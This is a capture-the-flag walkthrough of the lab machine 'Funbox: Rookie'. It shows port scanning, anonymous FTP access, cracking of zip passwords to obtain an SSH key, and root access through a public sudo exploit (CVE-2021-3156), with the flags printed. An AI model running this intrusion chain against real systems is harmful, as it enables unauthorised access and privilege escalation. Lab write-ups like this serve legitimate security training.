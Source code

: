 ```yaml
---
title: "Funbox : Rookie"
categories: [Proving Grounds, Play, Funbox]
tags: [FTP, Public Exploit, Unzip, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:512/1*hN7YDho1p8S7uOdLjj-8Mw.png
  alt:  Funbox-Rookie Machine 🖥️
---
```



## **Description ⤵️**

>
💡 [Funbox : Rookie](https://www.vulnhub.com/entry/funbox-rookie,520/)
<br>
Boot2Root ! This can be a real life scenario if rockies becomes admins. Easy going in round about 15 mins. Bit more, if you are find and stuck in the rabbit-hole first.
<br>
This VM is created/tested with Virtualbox. Maybe it works with vmware.
<br>
If you need hints, call me on twitter: @0815R2d2
<br>
Have fun...
<br>
This works better with VirtualBox rather than VMware.
{: .prompt-info }


### Let’s find the IP Address first >>

```bash
IP : 192.168.225.107
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie]
└─$ sudo nmap -sC -sV -T4 -oN Nmap_results.txt 192.168.225.107
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-08 15:37 IST
Nmap scan report for 192.168.225.107
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9:46:7d:fe:0c:4d:a9:7e:2d:77:74:0f:a2:51:72:51 (RSA)
|   256 15:00:46:67:80:9b:40:12:3a:0c:66:07:db:1d:18:47 (ECDSA)
|_  256 75:ba:66:95:bb:0f:16:de:7e:7e:a1:7b:27:3b:b0:58 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/logs/
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled.png)

Lets check `robots.txt` file →

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled%201.png)

## FTP Enumeration ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie]
└─$ ftp 192.168.225.107 21
Connected to 192.168.225.107.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.225.107]
Name (192.168.225.107:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.178 !
230-
230-The local time is: Sat Jul 08 10:10:10 2023
230-
230-This is an experimental FTP server.  If you have any unusual problems,
230-please report them via e-mail to <root@funbox2>.
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||7526|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 .
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 ..
-rw-r--r--   1 ftp      ftp           153 Jul 25  2020 .@admins
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
-r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
-rw-r--r--   1 ftp      ftp           114 Jul 25  2020 .@users
-rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
226 Transfer complete
ftp>
```
{: .nolineno}
{: .nolineno}

Now I downloaded all the files into the attackers machine →

```bash
wget -r ftp://192.168.225.107
```
{: .nolineno}
{: .nolineno}

Now lets dig into the files →

with the help of fcrackzip tool I cracked the zip passwords →

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled%202.png)

```bash
PASSWORD FOUND!!!!: pw == iubire
```
{: .nolineno}
{: .nolineno}

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie/192.168.225.107]
└─$ unzip tom.zip 
Archive:  tom.zip
[tom.zip] id_rsa password: 
  inflating: id_rsa
```
{: .nolineno}
{: .nolineno}

## SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie/192.168.225.107]
└─$ ssh tom@192.168.225.107 -i id_rsa 
The authenticity of host '192.168.225.107 (192.168.225.107)' cant be established.
ED25519 key fingerprint is SHA256:ZBER3N78DusT56jsi/IGcAxcCB2W5CZWUJTbc3K4bZc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.225.107' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul  8 10:45:19 UTC 2023

  System load:  0.0               Processes:             164
  Usage of /:   75.8% of 4.37GB   Users logged in:       0
  Memory usage: 38%               IP address for ens256: 192.168.225.107
  Swap usage:   0%

30 packages can be updated.
0 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@funbox2:~$
tom@funbox2:~$ cat local.txt
866bc12b3cc3f88f2bcfb8d091713b46
tom@funbox2:~$
```
{: .nolineno}
{: .nolineno}

Now lets see the Sudo version →

```bash
tom@funbox2:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
tom@funbox2:~$
```
{: .nolineno}
{: .nolineno}

Lets search an exploit for this Sudo version →

I got this exploit of [**CVE-2021-3156 (Sudo Baron Samedit)**](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py) and I used `exploit_nss.py` exploit **→**

```bash
tom@funbox2:/tmp$ nano exp.py
tom@funbox2:/tmp$ chmod +x exp.py
tom@funbox2:/tmp$ python3 exp.py
# whoami
root
# /bin/bash -i
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@funbox2:/tmp# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(tom)
root@funbox2:/tmp# whoami
root
root@funbox2:/tmp# cd /root
root@funbox2:/root# ls -al
total 32
drwx------  4 root root 4096 Jul  9 09:51 .
drwxr-xr-x 24 root root 4096 Oct 14  2020 ..
-rw-------  1 root root    0 Oct 14  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Sep 15  2020 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jul 25  2020 .ssh
-rw-r--r--  1 root root   32 Oct 14  2020 flag.txt
-rw-------  1 root root   33 Jul  9 09:51 proof.txt
root@funbox2:/root# cat flag.txt 
Your flag is in another file...
root@funbox2:/root# cat proof.txt
7ca58542dc8a0d0181aaf812ae214c69
root@funbox2:/root#
```
{: .nolineno}
{: .nolineno}

Now I am root !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
